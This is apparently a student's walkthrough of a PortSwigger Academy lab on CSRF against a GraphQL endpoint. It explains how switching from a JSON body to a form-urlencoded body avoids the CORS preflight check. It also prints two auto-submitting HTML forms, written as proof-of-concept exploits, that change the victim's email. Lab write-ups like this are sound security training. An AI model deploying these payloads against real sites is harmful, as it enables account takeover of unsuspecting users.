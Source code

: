 # [GraphQL] Lab: Performing CSRF exploits over GraphQL (1)

---

![Untitled](%5BGraphQL%5D%20Lab%20Performing%20CSRF%20exploits%20over%20GraphQ%20e3284a644d6e41dbb9ee9c0802004939/Untitled.png)

**Schema:** 

![Untitled](%5BGraphQL%5D%20Lab%20Performing%20CSRF%20exploits%20over%20GraphQ%20e3284a644d6e41dbb9ee9c0802004939/Untitled%201.png)

lets visualize this: 

![Untitled](%5BGraphQL%5D%20Lab%20Performing%20CSRF%20exploits%20over%20GraphQ%20e3284a644d6e41dbb9ee9c0802004939/Untitled%202.png)

now to capture the request towards changing the email what we can use is the proxy to capture that GraphQL query and allow it to capture that so we can possibly build a CSRF PoC

![Untitled](%5BGraphQL%5D%20Lab%20Performing%20CSRF%20exploits%20over%20GraphQ%20e3284a644d6e41dbb9ee9c0802004939/Untitled%203.png)

generated CSRF PoC: 

```jsx
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0200c40475e16781e5f35300800023.web-security-academy.net/graphql/v1" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;query&quot;&#58;&quot;&#92;n&#32;&#32;&#32;&#32;mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#92;n&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#92;n&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;email&#92;n&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#92;n&#32;&#32;&#32;&#32;&#125;&#92;n&quot;&#44;&quot;operationName&quot;&#58;&quot;changeEmail&quot;&#44;&quot;variables&quot;&#58;&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;test&#64;test&#46;ca&quot;&#125;&#125;&#125;" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

one of the issue I am having is due to the fact the content type of that data is JSON which means when **Content-Type Restrictions**: Modern web browsers enforce strict rules about making cross-origin HTTP requests with certain content types, such as `application/json`. 

- When a site tries to make a request to a different domain with content type `application/json`, the browser performs a preflight check using the CORS (Cross-Origin Resource Sharing) protocol.

**How do we by-pass this?** 

- This is not the case with content types like `application/x-www-form-urlencoded`, `multipart/form-data`, or `text/plain`, which can be used in simple cross-site POST requests without triggering CORS preflight checks.
- Lets try URL encoded.

by messing around with the GraphQL tab in repeater I was able to craft this payload: 

![Untitled](%5BGraphQL%5D%20Lab%20Performing%20CSRF%20exploits%20over%20GraphQ%20e3284a644d6e41dbb9ee9c0802004939/Untitled%204.png)

the changeEmail field requires variables to be defined. 

CSRF PoC: 

```jsx
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0200c40475e16781e5f35300800023.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;ChangeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#32;&#123;&#13;&#10;&#32;&#32;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#32;&#123;&#13;&#10;&#32;&#32;&#32;&#32;email&#13;&#10;&#32;&#32;&#125;&#13;&#10;&#125;" />
      <input type="hidden" name="variables" value="&#123;&#13;&#10;&#32;&#32;&quot;input&quot;&#58;&#32;&#123;&#13;&#10;&#32;&#32;&#32;&#32;&quot;email&quot;&#58;&#32;&quot;test&#64;test&#46;ca&quot;&#13;&#10;&#32;&#32;&#125;&#13;&#10;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![Untitled](%5BGraphQL%5D%20Lab%20Performing%20CSRF%20exploits%20over%20GraphQ%20e3284a644d6e41dbb9ee9c0802004939/Untitled%205.png)

and it worked: 

![Untitled](%5BGraphQL%5D%20Lab%20Performing%20CSRF%20exploits%20over%20GraphQ%20e3284a644d6e41dbb9ee9c0802004939/Untitled%206.png)

**LAB solved:** 

![Untitled](%5BGraphQL%5D%20Lab%20Performing%20CSRF%20exploits%20over%20GraphQ%20e3284a644d6e41dbb9ee9c0802004939/Untitled%207.png)
